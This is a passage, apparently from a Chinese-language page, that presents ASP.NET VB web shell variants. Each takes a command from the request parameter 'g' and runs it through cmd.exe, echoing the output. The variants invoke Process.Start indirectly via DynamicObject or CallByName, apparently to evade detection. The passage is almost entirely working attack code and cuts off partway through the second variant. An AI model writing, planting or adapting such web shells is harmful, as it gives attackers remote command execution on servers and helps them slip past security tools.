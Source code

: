 ```
</script>
```
在`VB`中使用`DynamicObject`动态调用`Start`方法
```
<%@ Page Language="VB" %>
<%@ Import Namespace="System.Dynamic" %>
<%
Dim userCommand As String = Request.Params.Get("g")
If Not String.IsNullOrEmpty(userCommand) Then
    Try
        Dim psi As New System.Diagnostics.ProcessStartInfo()
        psi.FileName = "cmd.exe"
        psi.Arguments = "/c " & userCommand
        psi.RedirectStandardOutput = True
        psi.UseShellExecute = False
        Dim process As New System.Diagnostics.Process()
        process.StartInfo = psi
        ' 使用 DynamicProcess 动态调用 Start 方法
        Dim dynamicProcess As Object = New DynamicProcess(process)
        dynamicProcess.Start()
        Dim output As String = process.StandardOutput.ReadToEnd()
        process.WaitForExit()
        Response.Write(Server.HtmlEncode(output))
    Catch ex As Exception
        Response.Write("Error: " & Server.HtmlEncode(ex.Message))
    End Try
Else
    Response.Write("No command")
End If
%>
<script runat="server">
Public Class DynamicProcess
    Inherits DynamicObject
    Private ReadOnly _process As System.Diagnostics.Process
    Public Sub New(process As System.Diagnostics.Process)
        _process = process
    End Sub
    Public Overrides Function TryInvokeMember(binder As InvokeMemberBinder, args() As Object, ByRef result As Object) As Boolean
        If binder.Name = "Start" Then
            result = _process.Start()
            Return True
        End If
        Return MyBase.TryInvokeMember(binder, args, result)
    End Function
End Class
</script>
```
在`VB`中使用`CallByName`动态调用`Start`方法
```
<%@ Page Language="VB" %>
<%
Dim userCommand As String = Request.Params.Get("g")
If Not String.IsNullOrEmpty(userCommand) Then
    Try
        Dim psi As New System.Diagnostics.ProcessStartInfo()
        psi.FileName = "cmd.exe"
        psi.Arguments = "/c " & userCommand
        psi.RedirectStandardOutput = True
        psi.UseShellExecute = False
        Dim process As New System.Diagnostics.Process()
        process.StartInfo = psi
        ' 使用 CallByName 动态调用 Process.Start
        CallByName(process, "Start", CallType.Method)
```